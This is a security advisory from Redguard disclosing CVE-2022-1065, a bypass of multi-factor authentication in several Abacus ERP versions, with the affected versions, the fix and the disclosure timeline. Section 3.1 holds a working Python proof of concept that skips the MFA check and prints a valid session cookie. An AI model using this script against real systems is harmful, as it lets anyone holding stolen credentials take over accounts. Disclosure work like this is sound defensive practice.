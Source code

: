 === Content from www.redguard.ch_e8798548_20250108_114323.html ===
Security Advisory: MFA Bypass in various versions of Abacus (CVE-2022-1065)
--------------------------------------------------------------------------------
1. Summary
-----------
Abacus is an owner-managed Swiss software company that employs around 600
people. For over three decades it has developed successful business software
[1].
This advisory describes a vulnerability affecting various versions of the Abacus
ERP software. The vulnerability relies within the authentication process of
Abacus and allows to bypass the second factor. Therefore, it is possible to gain
access to the system with the knowledge of a valid username / password
combination only and weakening the overall security level [2].
2. Vulnerable versions
-----------------------
The attack has been successfully tested against the following version:
\* v2021 prior to R4 of 2022-01-15
\* v2020 prior to R6 of 2022-01-15
According to vendor information, the following versions are vulnerable as well:
\* v2022 prior to R1 of 2022-01-15
\* v2021 prior to R4 of 2022-01-15
\* v2020 prior to R6 of 2022-01-15
\* v2019 after R5 of 2022-03-15 (service pack)
\* v2018 after R7 of 2022-04-15 (service pack)
2.1 Versions not vulnerable
----------------------------
According to vendor information, the following versions are not vulnerable:
\* v2019 prior to R5 of 2020-03-15
\* v2018 prior to R7 of 2020-04-15
\* v2017 and prior versions
3. Details
-----------
The application supports multi factor authentication (MFA) to further strengthen
the authentication process. After a user enters valid credentials, a request is
sent to the registered Abacus Access app on the mobile device of the user. The
user then has to approve the login request before a redirect to the system is
performed. However, the verification request which the user has accepted on the
mobile phone is only validated on the frontend and not the backend. Due to that,
this step can be bypassed by just ignoring the validation.
The following steps are passed during the authentication process:
1. The user accesses the page '/portal/myabacus'
2. The server creates a new session cookie and automatically redirects the user
to '/oauth/oauth2/v1/auth'
3. The user enters valid credentials, which are sent to
'/oauth/oauth2/v1/authenticate'
4. If the credentials are valid, the backend system triggers the MFA request to
the mobile application
5. Until the user has accepted the MFA request on the mobile, the frontend part
of the application sends a regular status requests to the backend system to
check if the user has already confirmed the request
6. Once the MFA request has been confirmed and the backend sends a successful
response in the status request, the authenticated session is bound using a
request to '/oauth-/oauth2/v1/authenticate/ocra/auth-session-bindings'
However, in the vulnerable versions, step 5 is only validated on the frontend
and not on the backend. As such, an attacker can just bypass/omit the status
request and directly initiate the session binding from step 6 without further
verification of the MFA status on the backend.
Using this approach, it is possible to initiate a fully authenticated session by
only providing username / password without the need to enter a second
authentication factor.
3.1 Proof of Concept
---------------------
The following proof of concept generates the necessary requests to generate a
valid session id.
```python
import re
import json
import urllib
from urllib.request import HTTPCookieProcessor, Request, build\_opener
cookie\_processor = HTTPCookieProcessor()
opener = build\_opener(cookie\_processor)
# Step 1,2 - Generate Session ID
opener.open(Request(BASE\_URL + "/portal/myabacus"))
# Step 3 - Perform login and extract values
data = urllib.parse.urlencode(
{'username':USERNAME,'password':PASSWORD}).encode()
req = Request(BASE\_URL + "/oauth/oauth2/v1/authenticate", data=data)
res = opener.open(req)
raw = str(res.read())
data\_auth = re.search('(?<=data-access-token=")[^"]+', raw).group(0)
data\_sid = re.search('(?<=data-auth-session-id=")[^"]+', raw).group(0)
data\_rid = re.search('(?<=data-approval-request-id=")[^"]+', raw).group(0)
# Step 6 - Bind auth session to session id without requesting MFA status
data = json.dumps(
{'authenticationSessionId':data\_sid,'approvalRequestId':data\_rid}
).encode('utf-8')
req = Request(BASE\_URL +
"/oauth/oauth2/v1/authenticate/ocra/auth-session-bindings")
req.add\_header('Authorization', 'Bearer ' + data\_auth)
req.add\_header('Content-Type', 'application/json; charset=utf-8')
req.add\_header('Content-Length', len(data))
opener.open(req,data=data)
# Do manual redirect in case there is no auto redirect
# This step could be omitted depending on the system configuration
data\_code = re.search('(?<=code" value=")[^"]+', raw).group(0)
data\_sstate = re.search('(?<=session\_state" value=")[^"]+', raw).group(0)
data\_state = re.search('(?<="state" value=")[^"]+', raw).group(0)
data = urllib.parse.urlencode(
{'code':data\_code,'session\_state':data\_sstate,'state':data\_state}).encode()
req = Request(BASE\_URL + "/portal/myabacus/oauthcb",data=data)
opener.open(req)
# Extract cookie
print("\_\_Secure-MYABACUS\_SESSION: " +
cookie\_processor.cookiejar
.\_cookies[DOMAIN]['/portal/myabacus']['\_\_Secure-MYABACUS\_SESSION'].value)
```
3.2 Workaround / Fix
---------------------
Install the available hot fixes and / or service packs from 2022-01-15 or newer
[3].
4. Credits
-----------
\* Roman Gribi, Redguard AG
5. Timeline
------------
\* 2021-12-21 : Initial notification of the vendor.
\* 2021-12-29 : Communication of the vulnerability to the vendor.
\* 2022-01-03 : Vendor confirmed the vulnerability and announced a fix will be
released.
\* 2022-01-06 : Redguard tested/validated the fix on a test system.
\* 2022-01-15 : Fix released to the public by Abacus Research AG.
\* 2022-03-24 : Initial contact with NCSC as CNA of Switzerland to assign a CVE.
\* 2022-03-24 : CVE-2022-1065 assigned by NCSC [4].
\* 2022-04-15 : Public disclosure of this advisory.
6. About Redguard
------------------
Redguard is a Swiss-based information security company. We assist our clients
with technical security testing as well as organizational security audits and
consulting. This enables us to have a team with extensive experience in a wide
variety of security relevant topics.
https://www.redguard.ch
contact@redguard.ch
7. Disclaimer
--------------
This document is not meant to be a complete list of security issues for any of
the mentioned software and/or versions. It is possible and indeed likely that
there are further security issues that are yet to be identified. The information
in the advisory is believed to be accurate at the time of publishing based on
currently available information. Use of the information constitutes acceptance
for use in an AS IS condition. There are no warranties regarding this
information. Neither the author nor the publisher accepts any liability for any
direct, indirect, or consequential loss or damage arising from use of, or
reliance on, this information.
References
[1] https://www.abacus.ch/unternehmen/portrait
[2] https://owasp.org/www-project-top-ten/2017/A2\_2017-Broken\_Authentication
[3] https://classic.abacus.ch/downloads-page/servicepacks
[4] https://www.cve.org/CVERecord?id=CVE-2022-1065

